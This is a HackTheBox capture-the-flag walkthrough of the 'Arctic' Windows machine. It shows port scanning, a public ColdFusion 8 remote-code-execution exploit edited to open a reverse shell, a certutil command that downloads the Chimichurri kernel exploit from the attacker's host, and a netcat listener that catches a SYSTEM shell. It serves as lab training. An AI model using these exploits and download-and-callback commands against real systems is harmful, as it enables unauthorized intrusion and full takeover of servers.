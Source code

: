 # HackTheBox
------------------------------------
### IP: 10.129.42.31
### Name: Arctic
### Difficulty: Easy
--------------------------------------------

Arctic.png

I'll begin enumerating this box by scanning all TCP ports with Nmap. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ sudo nmap -p- -sC -sV 10.129.42.31
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-03 16:46 CDT
Nmap scan report for 10.129.42.31
Host is up (0.071s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 330.82 seconds
```

Looking at port 8500 we find an index.

arctic_8500.png

This is looking like ColdFusion. Clicking into CFIDE we fan an administrator page:

arctic_administrator.png

Following the administrator link we find a ColdFusion 8 login page.

arctic_cf8.png

Looking for exploits I find this unauthenticated RCE exploit for Cold Fusion 8: https://www.exploit-db.com/exploits/50057

Lets give it a shot.

### Exploitation

Firstly we'll need to update lines 71-75 in the exploit to the correct IPs and ports:

```python
    # Define some information
    lhost = '10.10.14.216'
    lport = 443
    rhost = "10.129.42.31"
    rport = 8500
```

We can then launch the exploit with:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ python ~/Tools/exploits/coldfusion8_rce.py
```

This exploit spawns a reverse shell for us:

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>hostname
hostname
arctic
```

From here I can grab the user.txt flag:

arctic_user_flag.png

### Privilege Escalation

Not seeing much of interest on the box I decide to run `systeminfo` to see how old it is and what patching has been done:

```
C:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          4/7/2024, 8:35:41 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.087 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.243 MB
Virtual Memory: In Use:    1.042 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.42.31
```

Wow, this is a Windows Server 2008 R2 that hasn't been patched.

This is likely vulnerable to Chimichurri: https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

Lets give it a try.

Lets transfer the exploit over:

```
C:\temp>certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.216/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
```

We can then setup a netcat listener and run:

```
C:\temp>.\Chimichurri.exe 10.10.14.216 444
.\Chimichurri.exe 10.10.14.216 444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

And after waiting about a minute we get a call back to our listener:

```
┌──(ryan㉿kali)-[~/HTB/Arctic]
└─$ nc -lnvp 444 
listening on [any] 444 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.42.31] 49301
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>hostname
hostname
arctic
```

We can now grab the root.txt flag:

arctic_root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------------------------------